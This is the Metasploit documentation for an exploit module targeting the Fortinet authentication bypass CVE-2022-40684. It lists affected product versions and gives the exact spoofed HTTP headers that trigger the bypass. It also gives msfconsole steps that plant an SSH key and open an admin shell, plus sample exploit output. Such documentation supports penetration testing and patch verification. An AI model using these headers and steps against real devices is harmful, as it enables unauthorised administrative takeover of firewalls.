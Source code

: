 ## Vulnerable Application

An authentication bypass using an alternate path or channel vulnerability [CWE-288] in FortiOS (firewall)
FortiProxy (web proxy), and FortiSwitch Manager products. The vulnerability allows remote, unauthenticated user to
bypass authentication and gain access to the administrative interface of these products by using a specially
crafted http/s request.

On October 3, 2022, Fortinet released a software update that addressed this vulnerability (CVE-2022-40684).

The following products are affected:

- FortiOS 7.0.0 to 7.0.6
- FortiOS 7.2.0 to 7.2.1
- FortiProxy 7.0.0 to 7.0.6
- FortiProxy 7.2.0
- FortiSwitchManager 7.0.0
- FortiSwitchManager 7.2.0

### Exploitation

This module will abuse the authentication bypass vulnerability in the affected products to add a new ssh public
key in the authorized keys of the target user (if no user is provied it'll try to detect it) and then connect
over ssh to the target system (if no ssh private key is provided this module will automatically generate one).

To do so it will add the following header in all HTTP requests:
```
User-Agent: Report Runner
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
```

This module doesn't intend to overwrite the ssh keys already configured in the target system, it intends to
**add** a new key in the last slot, if it is available or overwriting it.

Even though the `check` detects the system as vulnerable, it performs a further validation if the ssh port is open and will fail otherwise.

After a successful exploitation it will remove the just added key as a clean-up process. We assume it is the last key.

## Verification Steps
Confirm that functionality works:

1. Start `msfconsole`
1. `use exploit/linux/http/fortinet_authentication_bypass_cve_2022_40684`
1. set `RHOSTS`
1. set `HttpTrace true` (optional)
1. set `SSH_DEBUG true` (optional)
1. set `VERBOSE true` (optional)
1. `exploit`
1. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the Fotigate API (Default: `/`).

### USERNAME (required)

The username of the targed user (Default: `admin`).

### PRIVATE_KEY (optional)

The path for the SSH private key to be used to authenticate. It must be in PEM format.

Example how to generate it:
```
ssh-keygen -t rsa -m PEM -f `openssl rand -hex 8`
```

### KEY_PASS (optional)

The password for a given SSH private key (if it has one).

### SSH_RPORT (required)

The SSH port to connnect to (Default: `22`)

## Scenarios

### vulnerable application version and OS
This module has been tested successfully on FortiGate v7.2.0.

```
msf6 exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > exploit 

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking XXX.XXX.XXX.XXX:443
[+] The target appears to be vulnerable. Target seems vulnerable
[*] Executing exploit on Interactive SSH
[*] Establishing SSH connection
[*] SSH session 1 opened (172.25.226.18:38791 -> XXX.XXX.XXX.XXX:22) at 2022-10-15 04:00:41 +0200

FW01 #  get sys status
Version: FortiGate-100F v7.2.0,build1157,220331 (GA.F)
Firmware Signature: certified 
```
